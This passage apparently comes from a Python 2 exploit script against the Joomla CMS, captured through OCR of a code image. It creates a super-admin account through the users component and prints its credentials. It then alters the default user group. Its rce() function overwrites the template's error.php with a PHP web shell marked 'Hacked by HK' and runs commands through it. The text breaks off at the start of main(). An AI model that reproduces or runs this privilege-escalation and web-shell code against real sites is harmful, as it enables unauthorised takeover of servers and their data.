 ```python
        'jform[requireReset]': 0,
        'jform[id]': 0,
        'jform[groups][]': 8,
        token: 1,
    }
    newdata['task'] = 'user.apply'
    url_post = url + "/administrator/index.php?option=com_users&layout=edit&id=0"
    sess.post(url_post, data=newdata, verify=True)
    sess.get(url + "/administrator/index.php?option=com_login&task=logout&" + token + "=1", verify=True)
    sess = requests.Session()
    if try_admin_login(sess, url, username, password):
        print "[+] Now, you are super-admin!!!!!!!!!!!!!!!!" + "\n[+] Your super-admin account: \n[+] USERNAME: " + username + "\n[+] PASSWORD: " + password + "\n[+] Done!"
    else:
        print "[-] Sorry,exploit fail!"
    return sess


def changeGroupDefault(url, sess, token):
    print("[+] Changing group")
    newdata = {
        'jform[title]': 'Public',
        'jform[parent_id]': 0,
        'task': 'group.apply',
        token: 1
    }
    newdata['task'] = 'group.apply'
    resp = sess.post(url + "/administrator/index.php?option=com_users&layout=edit&id=1", data=newdata,
                     verify=True)
    if 'jform[parent_id]' not in resp.text:
        print('[!] Maybe failed to change group...')
        return False
    else:
        print "[+] Done!"
    return True


def rce(sess, url, cmd, token):
    filename = 'error.php'
    shlink = url + '/administrator/index.php?option=com_templates&view=template&id=506&file=506&file=L2Vycm9yLnBocA%3D%3D'
    shdata_up = {
        'jform[source]': "<?php echo 'Hacked by HK\n' ;system($_GET['cmd']); ?>",
        'task': 'template.apply',
        token: '1',
        'jform[extension_id]': '506',
        'jform[filename]': '/' + filename
    }
    sess.post(shlink, data=shdata_up)
    path2shell = '/templates/protostar/error.php?cmd=' + cmd
    # print '[+] Shell is ready to use: ' + str(path2shell)
    print '[+] Checking:'
    shreq = sess.get(url + path2shell)
    shresp = shreq.text
    print shresp + '[+] Shell link: \n' + (url + path2shell)
    print '[+] Module finished.'


def main():
    # Construct the argument parser
    ap = argparse.ArgumentParser()
```